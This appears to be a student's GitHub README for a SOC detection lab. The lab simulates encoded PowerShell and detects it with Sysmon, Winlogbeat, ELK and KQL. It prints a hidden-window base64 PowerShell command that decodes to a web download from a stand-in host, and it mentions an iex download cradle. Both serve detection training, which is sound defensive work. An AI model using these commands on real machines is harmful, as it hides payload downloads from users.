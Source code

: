 # SOC Detection Lab: Detecting Obfuscated PowerShell with Sysmon + ELK

Welcome to a hands-on **SOC detection engineering lab** that simulates real-world attacker behavior using **encoded PowerShell** and walks through how to detect it using **Sysmon**, **Winlogbeat**, and the **Elastic Stack** (ELK).

> This project was created to showcase my ability to simulate attacks, analyze telemetry, and build real-world detections as a SOC analyst or detection engineer.

---

## Lab Objective

- Simulate **obfuscated PowerShell execution** with `-EncodedCommand`
- Investigate endpoint logs using **Sysmon**
- Ship logs to a central SIEM using **Winlogbeat**
- Detect malicious behavior using **KQL and Sigma rules**

---

## Lab Environment

| Component | Description |
|----------|-------------|
| Windows 10 VM | Host for Sysmon + attack simulation |
| Sysmon + config | Advanced endpoint logging |
| Winlogbeat | Log shipper for Windows events |
| Elastic + Kibana | Centralized log storage and analysis |
| VS Code | Markdown documentation and repo management |

---

## Lab Walkthrough

| Step | Description |
|------|-------------|
| [`1_sysmon-setup.md`](lab-steps/1_sysmon-setup.md) | Installing Sysmon with a custom config |
| [`2_attack-simulation.md`](lab-steps/2_attack-simulation.md) | Simulating obfuscated PowerShell |
| [`3_log-investigation.md`](lab-steps/3_log-investigation.md) | Investigating logs in Event Viewer |
| [`4_winlogbeat-to-elk.md`](lab-steps/4_winlogbeat-to-elk.md) | Sending logs to ELK and detecting the attack |

---

## Simulated Attack

powershell
    powershell.exe -nop -w hidden -EncodedCommand SQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAAIgBoAHQAdABwADoALwAvAGUAbQBvAGMAawAvAGQAbwB3AG4AcwBjAHIAaQBwAHQAIgA=

Decoded Command:
    Invoke-WebRequest "http://emock/downloadscript"

## Detection Strategy 

| Technique | Description |
|----------|-------------|
| T1059.001 | Powershell |
| T1027 | Obfuscation |
| T1105 | Remote File Copy |

## KQL Detection (Kibana):

process.name: "powershell.exe" AND process.command_line: "*-EncodedCommand*"

## Sigma Rule:
    detections/powershell-encodedcommand.yml

## Screenshots:

Sysmon Event ID 1 showing obfuscated PowerShell
Base64 decoding in CyberChef
Kibana search result

See /screenshots folder

## What You'll Learn

Endpoint logging with Sysmon
Obfuscation techniques in PowerShell
Threat hunting using KQL
Building detection rules
Structing and documenting a SOC lab for GitHub

## About the Author 

Hi, I’m a cybersecurity student and hands-on learner passionate about threat detection and SOC workflows.

This lab is part of my growing portfolio of cybersecurity projects.
Want to collaborate or provide feedback? Feel free to reach out on GitHub!
Check out more projects and cybersecurity news at https://medium.com/@SamAchek


## Status

Lab is complete!

Future Ideas:
    Add detection for Powershell downloading via iex (New-Object Net.WebClient)
    Add alerting rule in Elastic Security
    Build out GRC-style executive report from this analysis

## License 
This project is open-sourced under the MIT License.
